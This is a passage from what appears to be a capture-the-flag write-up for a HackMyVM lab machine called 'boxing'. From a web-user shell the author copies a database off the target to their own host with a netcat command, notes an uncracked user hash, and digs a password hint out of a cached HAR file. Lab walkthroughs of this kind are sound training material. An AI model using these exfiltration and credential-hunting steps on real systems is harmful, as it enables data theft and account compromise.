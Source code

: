 ```bash
www-data@boxing:~/dev$ ls -lash
ls -lash
total 40K
4,0K drwxr-xr-x 3 root root 4,0K  4 févr.  2024 .
4,0K drwxr-xr-x 4 root root 4,0K  4 févr.  2024 ..
 24K -rw-r--r-- 1 root root  24K  4 févr.  2024 boxing_database.db
4,0K drwxr-xr-x 2 root root 4,0K  4 févr.  2024 cache
4,0K -rw-r--r-- 1 root root 1,6K  4 févr.  2024 index.php
```

I copied `boxing_database.db` to my system:

Target:

```bash
www-data@boxing:~/dev$ nc 192.168.0.51 9999 < boxing_database.db
nc 192.168.0.51 9999 < boxing_database.db
www-data@boxing:~/dev$ md5sum boxing_database.db
md5sum boxing_database.db
d3c4cf79912605f146b3a0137c60ac3c  boxing_database.db
```

Host:

```bash
garffff@garffff:~/hackmyvm/boxing$ sudo nc -lvp 9999 > boxing_database.db
[sudo] password for garffff:            
Listening on 0.0.0.0 9999
Connection received on staging-env.boxing.hmv 33362
^C
garffff@garffff:~/hackmyvm/boxing$ md5sum boxing_database.db
d3c4cf79912605f146b3a0137c60ac3c  boxing_database.db
```

There is a hash for the user `cassius` but I was unable to crack it:

![[Pasted image 20241102124822.png]]

Looking around the target further, I came across a file called `client_requests.har.swp`:

```bash
www-data@boxing:~/dev/cache$ ls -lash
ls -lash
total 28K
4,0K drwxr-xr-x 2 root root 4,0K  4 févr.  2024 .
4,0K drwxr-xr-x 3 root root 4,0K  4 févr.  2024 ..
4,0K -rw-r--r-- 1 root root  160  4 févr.  2024 707971e003b4ae6c8121c3a920e507f5-le64.cache-8
4,0K -rw-r--r-- 1 root root  190  4 févr.  2024 CACHEDIR.TAG
8,0K -rw-r--r-- 1 root root 5,1K  4 févr.  2024 client_requests.har.swp
4,0K -rw-r--r-- 1 root root 1,0K  4 févr.  2024 data_block.bin
```




```bash
www-data@boxing:~/dev/cache$ cat client_requests.har.swp
<--SNIP-->
          "queryString": [],
          "cookies": [],
          "headersSize": 563,
          "bodySize": 181,
          "postData": {
            "mimeType": "application/x-www-form-urlencoded",
            "text": "feedback=Hello%21+You+don%27t+have+a+link+to+reset+the+password%2C+and+I%27ve+forgotten+it%21+I+tried+Cassius%21+but+it+doesn%27t+work%3B+Contact+me+asap+pease%21%0D%0A%0D%0ACassius",
            "params": [
              {
                "name": "feedback",
```